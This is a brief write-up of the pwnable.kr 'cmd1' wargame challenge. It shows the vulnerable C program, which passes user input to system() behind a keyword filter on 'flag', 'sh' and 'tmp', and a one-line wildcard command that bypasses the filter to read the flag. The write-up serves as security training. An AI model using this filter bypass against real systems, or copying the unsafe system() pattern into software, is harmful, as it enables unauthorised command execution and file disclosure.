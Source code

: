 # pwnable.kr -- Toddler's Bottle -- cmd1

## 1. Challenge

```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

## 2. Solution

Connect via SSH and see source code.

```c
// cmd.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

`"flag"`, `"sh"` and `"tmp"` are filtered. But we can use wildcard.

```bash
$ ./cmd1 "/bin/cat fla*"
```
